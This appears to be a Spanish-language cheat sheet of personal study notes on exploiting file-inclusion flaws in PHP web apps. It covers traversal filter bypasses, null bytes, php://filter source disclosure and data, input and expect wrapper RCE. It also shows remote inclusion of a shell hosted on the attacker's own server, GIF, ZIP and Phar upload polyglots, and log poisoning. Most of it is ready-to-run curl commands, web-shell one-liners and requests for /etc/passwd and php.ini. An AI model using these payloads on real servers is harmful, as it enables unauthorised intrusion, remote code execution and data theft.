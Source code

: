 

## Basic bypasses
### Non-Recursive Path Traversal Filters

Es un filtro que elimina ../ pero de forma no recursiva asi que se puede bypassear asi :
....//
..././
....////
### Encoding
algunos filtros eliminan ../ pero puedes url encodearlo para bypassearlo

### Appended Extension
-Path Truncation
En versiones antiguas de PHP( antes de PHP 5.3 y 5.4), cadenas > 4096 caracteres se truncaban:
```
non_existing_dir/../../../etc/passwd/./././././ ... (repetido muchas veces)
```
-Null Bytes 
En PHP <5.5, %00 termina la cadena por ende podriamos hacer ../../etc/passwd%00 para eliminar el .php

## PHP filters
Si leemos un archivo como config.php probablemente no podamos ver el codigo fuente puesto que lo renderizara asi que podemos hacer la peticion del codigo fuente en base 64 para que no lo renderice y luego decodificarlo para ver el codgio fuente : 
```
caca?caca=php://filter/read=convert.base64-encode/resource=config
```
## RCE Wrappers

 1.Verificar allow_url_include leyendolo de php.ini . Ejemplo:
 ```
 php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

### Data Wrapper
Permite incluir datos externos, incluso código PHP.Puede decodificar strings en base64 y ejecutar PHP contenido
1.
```
echo '<?php system($_GET["cmd"]); ?>' | base64
```
2.
```
curl 'http://<SERVER>/index.php?language=data://text/plain;base64,<base64 shell>&cmd=<comando>'
```

### Input Wrapper 

```
curl -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER>/index.php?language=php://input&cmd=id"
```
Nota: El comando se pasa vía GET, pero si la app solo acepta POST, el comando puede estar hardcodeado en el shell PHP enviado.

### Expect Wrapper

```
curl "http://<SERVER>/index.php?language=expect://id"
```
es raro que deje puesto que no se suele usar este wrapper
## RCE RFI

Baicamente metes en el campo vulnerable un servidor que estes levantando tu con una revers shell 
1.Crear shell 
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
2.Crear un server en HTTP, FTP o SMB
```
sudo python3 -m http.server <PUERTO>
```

```
sudo python -m pyftpdlib -p 21
```

```
impacket-smbserver -smb2support share $(pwd)
```

3.Ejecutar la shell via RFI 

en http : 
```
http://<SERVER_IP>/index.php?language=http://<TU_IP>:<PUERTO>/shell.php&cmd=id
```
en ftp : 
```
ftp://user:pass@<TU_IP>/shell.php
```
en SMB: 
```
\\<TU_IP>\share\shell.php
```

## RCE File uploads

Imagina que te dejan subir un gif a una web :

1.Shell maliciosa
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
GIF8 son los bytes mágicos para identificarla como imagen GIF.
Esto ayuda a pasar controles básicos de validación en la subida.

2.Obtener ruta del archivo subido
Inspeccionar el código HTML para obtener la ruta (ej: /profile_images/shell.gif).

3.A jugar
```
http://server/index.php?page=./profile_images/shell.gif&cmd=id
```

### Técnicas avanzadas alternativas (solo PHP)
#### ZIP upload

Crear un archivo ZIP con el PHP shell dentro, pero nombrarlo con extensión de imagen (ej: shell.jpg)

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
zip shell.jpg shell.php
```
y usar el wrapper ZIP para inculirlo
```
include('zip://./profile_images/shell.jpg#shell.php');
```
#### Phar upload

Crear un archivo Phar que contenga el código PHP:
```
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
Compilar y renombrar:
```
php --define phar.readonly=0 shell.php
mv shell.phar shell.jpg
```
Subir `shell.jpg` y usar el wrapper Phar para incluir:
```
include('phar://./profile_images/shell.jpg/shell.txt');
```
Y luego ejecutas los comandos que quieras 
## RCE Log Poisoning
Primero de todo vemos donde guarda la web los logs , en este caso los guarda en : `/var/log/nginx/access.log`

Luego vemos que encabezado de nuestra request es el que guarda en los logs para inyectarle la shell

Por ultimo voolvemos a entrar a los logs para que la shell se ejecute
